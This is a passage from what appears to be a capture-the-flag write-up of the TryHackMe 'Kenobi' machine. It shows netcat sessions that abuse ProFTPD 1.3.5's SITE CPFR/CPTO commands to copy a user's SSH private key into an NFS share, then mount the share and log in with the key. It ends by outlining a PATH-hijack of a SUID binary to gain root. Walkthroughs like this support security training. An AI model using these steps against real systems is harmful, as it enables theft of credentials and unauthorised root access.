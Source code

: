 
- SITE CPFR : copy from
- SITE CPTO : copy to

We know from the `log.txt` that FTP is run by Kenobi which mean we will get Kenobi priv if we compomised FTP. The plan is copy his SSH private key and put it in `/var`, WHY? coz the mount poin for NFS is at `/var`. We will use NFS to get the key later on!.


now let copy it Kenobi ssh key using ```SITE CPFR``` and ```SITE CPTO`` via netcat and put it in `/var`:
```console
bibo318@parrot:~/THM/kenobi$ nc 10.10.120.243 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.120.243]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
let mount `/var/tmp` to our Kali and get the fcing key!
```console
bibo318@parrot:~/THM/kenobi$ mkdir NFS
bibo318@parrot:~/THM/kenobi$ sudo mount 10.10.120.243:/var NFS #mount
bibo318@parrot:~/THM/kenobi$ ls NFS/tmp/
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM/
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw/
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn/
systemd-private-ef8cb470bb2f4219b0e5c411e18962d4-systemd-timesyncd.service-yFRo9P/                                                             
bibo318@parrot:~/THM/kenobi$ cp NFS/tmp/id_rsa kenobi-key #copy key
bibo318@parrot:~/THM/kenobi$ umount NFS # unmout
```
let SSH to the machine using the key
```console
bibo318@parrot:~/THM/kenobi$ chmod 600 kenobi-key 
bibo318@parrot:~/THM/kenobi$ ssh -i kenobi-key kenobi@10.10.120.243
kenobi@kenobi:~$ 
```
WE ARE IN
# ROOT
there are a binary file that looks odd `/usr/bin/menu`, I checked for `ltrace` but nope it is uninstalled.
I then using strings to examing `/usr/bin/menu`
```console
kenobi@kenobi:~$ strings /usr/bin/menu
.
.
.
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
.
.
.
```
This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.
